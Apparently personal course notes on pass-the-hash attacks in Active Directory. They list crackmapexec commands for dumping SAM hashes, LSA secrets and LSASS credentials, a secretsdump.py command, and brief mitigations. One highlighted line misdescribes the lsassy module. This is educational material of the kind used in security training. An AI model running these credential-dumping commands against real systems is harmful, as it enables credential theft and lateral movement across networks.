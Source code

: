 

One module really useful is `lsassy`, <mark style="background: #BBFABBA6;">it is used to enforce the security policy on the system and stores some credentials so we could retrieve them using this command</mark>:
```bash
crackmapexec smb AD_NETWORK (10.0.0.0/24) -u username_we_have -d DOMAIN_AD -H hash_value --local-auth -M lsassy
```
- ![[Pasted image 20241218151633.png]]



## Steps 
1. execute `crackmapexec smb NETWORK CIDR -u username -d DOMAIN -p Password1`
	1. ![[Pasted image 20241220104858.png]]
	2. in case we have only the hash and not the password we need to run `crackmapexec smb NETWORK CIDR -u username -d DOMAIN -H HASH --local-auth`
2. **==then we can start to enumerate all information with==** `crackmapexec smb NETWORK CIDR -u username -d DOMAIN -H HASH --local-auth --sam ` to get other hashes
3. `crackmapexec smb NETWORK CIDR -u username -d DOMAIN -H HASH --local-auth --shares` to get other info about the the file sharing spaces
4. `crackmapexec smb NETWORK CIDR -u username -d DOMAIN -H HASH --local-auth -lsa` to get secret information
5. `crackmapexec smb NETWORK CIDR -u username -d DOMAIN -H HASH --local-auth -M lsassy` **==to get all stored information==** 


**==Crackmapexec stores everything in a database so we can retrieve the information using:==**
```bash
cmedb 

help
```


## dumbing and cracking hashes

**==What we can do is to run==** :
```bash 
secretsdump.py DOMAIN/username:'PASSWORD'@IP_HOST
```
- ![[Pasted image 20241220110911.png]]
- ![[Pasted image 20241220110942.png]]


## Pass attack mitigation
It is pretty hard to prevent but we can:
- **==force a limit account re-use==**
	- ![[Pasted image 20241220114503.png]]
- **==Utilize strong passwords==**
- **==use a Privilege Access Management (PAM)==**
	- ![[Pasted image 20241220114530.png]]

